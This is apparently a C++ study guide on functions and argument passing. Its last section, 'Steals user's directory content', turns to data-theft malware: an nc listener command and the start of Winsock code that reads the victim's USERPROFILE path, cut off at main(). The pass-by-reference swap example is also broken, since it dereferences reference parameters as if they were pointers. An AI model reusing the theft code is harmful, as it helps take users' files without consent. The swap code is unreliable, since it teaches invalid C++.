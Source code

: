 ### Functions Study Guide

Functions are blocks of statements defined under a name.

```c++
type function_name(param1, param2, ...){
  statements;
}

// function with "formal" parameters
int sum(int x, int y) {
  int z;
  z = x + y;
  return(z);
}
```

In almost any programming language, there are two ways in which we can pass arguments to a function:

- By value
  - Copies the value of an argument into a parameter. Changes made to the parameter do not affect the argument
  - Code in the function does not alter the arguments used by the caller
  - It's a copy of the value of the argument passed into the function
  - What occurs inside the function has NO EFFECT on the variable provided by the caller
- By reference
  - The address of an argument (not the value) is copied into the parameter
  - Inside the function, the address is used to access the actual argument used in the call
  - Changes made to the parameter will affect the argument

```c++
void swap(int& x, int& y) {
  int temp;
  temp=*x;
  *x=*y;
  *y=temp;
}
```

### Example: Steals user's directory content

Listen for an incoming connection with `nc -lvp 5555`:

```c++
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#pragma comment(lib, "Ws2_32.lib")
#include <iostream>
#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>
#include <dirent.h>
#include <string>

char* userDirectory()
{
    char* pPath;
    pPath = getenv ("USERPROFILE");
    if (pPath!=NULL)
    {
        return pPath;
    } else {
        perror("");
    }
}

int main()
```